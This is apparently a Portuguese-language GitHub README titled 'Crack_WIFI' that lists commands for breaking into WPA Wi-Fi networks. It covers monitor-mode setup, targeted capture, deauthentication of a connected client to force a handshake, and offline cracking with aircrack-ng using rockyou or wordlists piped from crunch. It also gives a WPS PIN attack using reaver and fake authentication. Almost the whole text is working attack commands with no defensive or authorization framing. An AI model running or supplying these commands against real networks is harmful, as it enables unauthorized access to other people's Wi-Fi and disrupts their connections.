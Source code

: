 # Crack_WIFI
Crack_WIFI <br>
 <br>
airmon-ng check wlan0  <br>
airmon-ng check kill  <br>
airmon-ng start wlan0  <br>
airodump-ng wlan0 -a --band abg  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg wlan0  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg -w captura wlan0  <br>
aireplay-ng --deauth 0 -a E4:C0:E2:1C:6E:6B -c 28:87:BA:3A:AF:CF wlan0  <br><br>
<b> APENAS DEPOIS DE APARECER NO CAMPO NOTES EAPOL, PARA PODER PARAR A CAPTURA  </b> <br><br>
![IMAGE01](https://github.com/fernandomxm/Crack_WIFI/blob/main/image01.png) 
![IMAGE02](https://github.com/fernandomxm/Crack_WIFI/blob/main/wpa-4-way-handshake-workflow.png) <br> <br>
PODE SER UTILIZADO: wpaclean, para gerar o arquivo .cap "LIMPO", apenas com EAPOL KEY: <br>
<b>wpaclean clean.cap captura.cap</b>  <br><br>
<b> aircrack-ng -w /usr/share/wordlists/rockyou.txt -b E4:C0:E2:1C:6E:6B clean.cap  </b> <br>
<br>
Pode ser utilizada uma automatização com o crunch (On-the-Fly Wordlist Generation): <br> <br>
<b> crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha | aircrack-ng -b E4:C0:E2:1C:6E:6B -w - clean.cap </b> <br> <br>
Dessa forma, ele ira gerar uma lista gigante de de teste, sem consumir espaço em disco. <br> <br>
Para gerar a wordlist pode ser usado o: <br>
crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha -o wordlist.txt <br>
<br>
<b> apt -y install seclists </b> <br>
/usr/share/seclists/ <br>
/usr/share/wordlists/rockyou.txt <br>
Weakpass, CrackStation <br> <br>
O parâmetro PWR é o sinal WIFI. Quando mais perto de 0, melhor o sinal.  <br> <br> <br>
<b> FORMA VIA WPS SEM USO DE WORDLIST (Isso só funciona se o roteador estiver configurado para não usar PBC (Push Button Authentication) </b> <br>
wash --interface wlan0 <br>
reaver --bssid E4:C0:E2:1C:6E:6B  --channel 10 --interface wlan0 -vvv --no-associate <br>
aireplay-ng --fakeauth 30 -a E4:C0:E2:1C:6E:6B -h mac_wlan0 wlan0  <br> <br>
<b> Avaliar linha com: WPA PSK: </b>
